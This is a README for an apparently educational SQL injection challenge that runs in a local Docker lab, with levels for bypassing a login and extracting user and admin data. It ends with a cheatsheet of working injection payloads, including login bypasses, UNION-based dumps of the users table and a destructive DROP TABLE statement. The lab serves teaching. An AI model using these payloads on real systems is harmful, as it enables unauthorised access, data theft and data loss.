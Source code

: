 # SQL Injection Challenge

A simple SQL injection challenge designed for educational purposes. Try to bypass the login system and extract sensitive data!

## Prerequisites
- Docker
- Docker Compose

## Setup Instructions
1. Clone this repository:

   git clone [your-repo-url]


2. Navigate to the project directory:

   cd Injection_challenge


3. Start the containers:

   docker-compose up -d


4. Access the challenge:

   Open your browser and visit `http://localhost:8080`

## The Challenge

Your mission, should you choose to accept it:

1. Level One: Try to log in without checking valid credentials from the database.
2. Level Two: Extract ALL user data from the database
3. Challenge Level: Find all admin accounts and their details

Once you have completed the challenge level, send a screenshot of the input you used including the successful feedback & data 
to w0194127@nscc.ca


### Tips
- Think about SQL syntax and special characters
- Remember that SQL queries can be manipulated
- Consider how login forms typically work with databases

## Extra Tips
- `#` can be more reliable than `--` as a comment
- The password field doesn't matter when using these injections
- Use single quotes `'` to break out of the SQL string
- The space at the end of injections is important when using `--`

## Common Errors & Fixes
- If getting syntax error with `--`, add a space after it
- If `--` doesn't work, try using `#` instead
- If UNION fails, make sure there's a space between UNION and SELECT

## Cheatsheet
Note: Adding a space after -- is crucial.
Note: Some of these commands are not relevant to this challenge.

'; DROP TABLE users;#
' UNION SELECT * FROM users;#
' OR username LIKE '%admin%' -- 
' ORDER BY 1,2,3 --
' UNION SELECT * FROM users -- 
'; DROP TABLE users;#
' OR '1'='1' -- 
' HAVING 1=1 -- 
' OR 'x'='x' -- 
' UNION SELECT * FROM users UNION SELECT * FROM users;#
' GROUP BY username HAVING 1=1 --
admin' -- 

## Good luck! 